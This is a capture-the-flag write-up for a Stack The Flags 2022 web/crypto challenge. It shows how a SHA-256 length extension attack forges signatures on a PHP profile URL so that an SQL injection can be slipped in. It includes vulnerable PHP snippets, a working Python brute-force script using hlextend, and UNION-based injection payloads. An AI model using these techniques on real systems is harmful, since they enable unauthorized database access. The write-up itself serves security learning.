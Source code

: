 ```yaml
---
title: extended
CTF: Stack The Flags
Year: 2022
category: [web, crypto]
author: Hal0g3n
date: 8 Dec 2022

hide:
- footer
- toc
---
```


# extended
by [Hal0g3n](https://github.com/Hal0g3n)
> Seems like an extensive authentication system
## Solution
When we first open the website, we see a Jaga Authentication (predictable as above). 
![extended.png](./assets/extended.png)
With authentication, one usually thinks of SQL injection, and indeed we do see it is SQL injectable in the code base, as shown in the PHP (**BAD** langauage) snippet below. This can be found in `profile.php`
```php
$user = $db->prepare("SELECT * FROM j4g4_us3rs WHERE uid = '$uid'");
```

So now, what is `uid`? Following the code upstream, we see that it is a randomly generated hex string given on registering. And that 0 ensures we are not admin :(
```php
$uid = bin2hex(random_bytes(32));
$user = $db->prepare("INSERT INTO j4g4_us3rs (uid, username, password, role) VALUES (?, ?, ?, 0)");
$user->execute([$uid, $username, md5($password)]);
```

But look, uid is given as a url param when going to `profile.php`, so we can just inject our code there? Well no, that gives us a 404 error
![extended.png](./assets/extended_failed.png)
We need to dig deeper!

In `profile.php` we see this snippet of code
```php
$uri = explode('|', substr($_SERVER["REQUEST_URI"], strpos($_SERVER["REQUEST_URI"], "?") + 1));
$paramstr = urldecode($uri[0]);
$params = parse_url('?' . $paramstr);
parse_str($params['query'], $params);
$sig = $uri[1];

if ($sig !== hash("sha256", $SECRET . $paramstr)) {
	http_response_code(404);
	include('404.php');
	die();
}
```
We see that the `uid` parameter has a signature, such that when `SECRET . paramstr` is hashed using `sha-256`, we get `sig` again. `sig` is passed alongside the `uid` with a delimiter `|`. So the url we need should have the format

`http://localhost:3273/profile.php?uid=<$uid>|<$sig>`

Now we see that we cannot just replace uid with the SQL injection as there is a check with the hidden string `SECRET`. However, we could just extend (woah question name) the uid by appending the SQL injection to it, keeping some parts of the original string and its hash. Would this even work? YES.

## Length Extension Attack
A length extension attack can be done on `sha-256`, the hashing algorithm used to check against `sig`. It is basically crypto magic, and if you want to find out the details you can go [here](https://en.wikipedia.org/wiki/Length_extension_attack).
Here is how it works. 
> **The Attack**
> Using $M$ and $HASH(SECRET . M)$ and the length of $SECRET$. \
> We can use get $HASH(SECRET.M.PADDING.E)$. 
> 
> $M$ is the original message, here it is the `uid` \
> $SECRET$ is the secret string, which also appears here \
> $PADDING$ is just some specific characters to perform the attack. \
> $E$ is our message to append, which will be our SQL injection.

Using a [library](https://github.com/stephenbradshaw/hlextend) we found, we can perform the length extension attack and get our SQL injection signed. As for the lenght of $SECRET$, we just brute forced, since it is only from 16 to 32, and found that it works when the length is 28.
<u>Bruteforce Script</u>
```python
import hlextend, requests 

for i in range(16, 33): 
	sha = hlextend.new('sha256')
	print(i, requests.get("http://<site>/profile.php?" +
		sha.extend( "' or role=1--",
		"uid=b526a1e66e5cd6c998510ed8e36bb91ba247c11d2c39f191d25f52126d06e73b", 
		i,
		"953e3e0eb6e871a8c0f5441f11aca4723e3237d2ce5904d3f03915fbc050e99d" 
	) + '|' + sha.hexdigest()).text)
```

Afterwards we inserted our SQL injection (finally) and get our flag. \
SQL Injection: `' UNION SELECT flag, flag, flag, flag, flag FROM j4g4_us3rs WHERE role=1--`
![extended_success.png](./assets/extended_success.png)
Flag: `STF22{h4sh_l3ngth_1nj3ct10n_1s_4w3s0m3}`
